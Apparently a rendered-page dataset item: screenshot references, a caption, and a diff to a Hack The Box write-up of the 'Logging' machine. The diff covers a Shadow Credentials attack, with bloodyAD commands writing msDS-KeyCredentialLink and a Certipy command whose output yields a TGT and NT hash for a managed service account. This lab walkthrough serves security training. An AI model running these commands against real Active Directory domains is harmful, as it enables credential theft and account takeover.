

Before and after one commit to thesecretmyth/thesecretmyth.github.io, a Jekyll site: the page built from _posts/2026-07-19-htb-logging.md, in a window 1280 px wide and 1400 px high, scrolled down 29988 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
HTB: Machine: Logging

````diff
--- a/_posts/2026-07-19-htb-logging.md
+++ b/_posts/2026-07-19-htb-logging.md
@@ -1033,9 +1033,11 @@
 
 ### Exploitation: Shadow Credentials via bloodyAD (with Caveats)
 
-Initially, `bloodyAD` was used to orchestrate the Shadow Credentials attack using our cached Kerberos ticket (`-k`).
+While `bloodyAD` is incredibly efficient at injecting Shadow Credentials via LDAP, it can fail during the **PKINIT** authentication phase in strict Kerberos environments.
 
-```Bash
+Initially, `bloodyAD` was used to orchestrate the attack using our cached Kerberos ticket (`-k`).
+
+```bash
 # Inject Shadow Credentials and retrieve the NT hash
 ➜ env KRB5CCNAME=svc_recovery.ccache \
 fake_time dc01.logging.htb \
@@ -1050,14 +1052,14 @@
 NT: 603fc24ee01a9409f83c9d1d701485c5
 ```
 
-However, in persistent environments, the attack fails during the PKINIT authentication phase:
+Here, `bloodyAD` successfully generated the key pair and wrote the public key to `msDS-KeyCredentialLink`, but crashed during the **PKINIT** pre-authentication phase when attempting to request the TGT:
 
 ```Bash
 ➜ env KRB5CCNAME=svc_recovery.ccache \
 fake_time dc01.logging.htb \
-bloodyAD -H dc01.logging.htb -d logging.htb \
-        -u 'svc_recovery' -k \
-        add shadowCredentials 'msa_health$'
+bloodyAD --host dc01.logging.htb -d logging.htb \
+    -u 'svc_recovery' -k \
+    add shadowCredentials 'msa_health$'
 
 [+] KeyCredential generated with following sha256 of RSA key: 0699bd312a8b60b08f48200619dea7ebcee1ec09d874dfffc094671f08ec875b
 [-] PKINIT failed on DC 10.129.62.234, you must find a Kerberos server with a certification authority!
@@ -1071,6 +1073,44 @@
 **Technical Analysis of the Failure**:
 
 The attack failed with `KDC_ERR_PADATA_TYPE_NOSUPP` during the PKINIT authentication phase. This occurred because `bloodyAD`'s underlying Kerberos library (`kerbad`) automatically resolved the DC to an IP address (`10.129.62.234`). During the TLS handshake, this caused a Subject Alternative Name (SAN) mismatch against the Domain Controller's certificate, prompting the KDC to reject our pre-authentication data.
+
+### Remediation: Authenticating with Certipy
+
+Even though `bloodyAD` crashed during the **PKINIT** phase, it successfully generated and saved the certificate locally (msa_health_Ww.pfx). We can bypass the strict validation error by feeding this saved certificate directly into Certipy to complete the authentication and retrieve the NT hash.
+
+```Bash
+➜ fake_time dc01.logging.htb \
+certipy auth \
+    -pfx msa_health_Ww.pfx \
+    -u 'msa_health$' \
+    -domain logging.htb -dc-ip $target_ip \
+    -debug
+
+Certipy v5.1.0 - by Oliver Lyak (ly4k)
+
+[+] Target name (-target) and DC host (-dc-host) not specified. Using domain '' as target name. This might fail for cross-realm operations
+[+] Nameserver: '10.129.62.234'
+[+] DC IP: '10.129.62.234'
+[+] DC Host: ''
+[+] Target IP: '10.129.62.234'
+[+] Remote Name: '10.129.62.234'
+[+] Domain: ''
+[+] Username: 'MSA_HEALTH$'
+[*] Certificate identities:
+[*]     SAN DNS Host Name: 'CN=msa_health,CN=Managed Service Accounts,DC=logging,DC=htb'
+[!] The provided username does not match the identity found in the certificate: 'msa_health$' - 'CN=msa_health,CN=Managed Service Accounts,DC=logging,DC=htb'
+Do you want to continue? (Y/n): Y
+[*] Using principal: 'msa_health$@logging.htb'
+[*] Trying to get TGT...
+[+] Sending AS-REQ to KDC logging.htb (10.129.62.234)
+[*] Got TGT
+[*] Saving credential cache to 'msa_health.ccache'
+[+] Attempting to write data to 'msa_health.ccache'
+[+] Data written to 'msa_health.ccache'
+[*] Wrote credential cache to 'msa_health.ccache'
+[*] Trying to retrieve NT hash for 'msa_health$'
+[*] Got hash for 'msa_health$@logging.htb': aad3b435b51404eeaad3b435b51404ee:603fc24ee01a9409f83c9d1d701485c5
+```
 
 **Recommendation**: Use `Certipy` for Shadow Credentials attacks in strict Kerberos environments. `bloodyAD` remains useful for other LDAP-based attacks that don't require PKINIT.
 
````
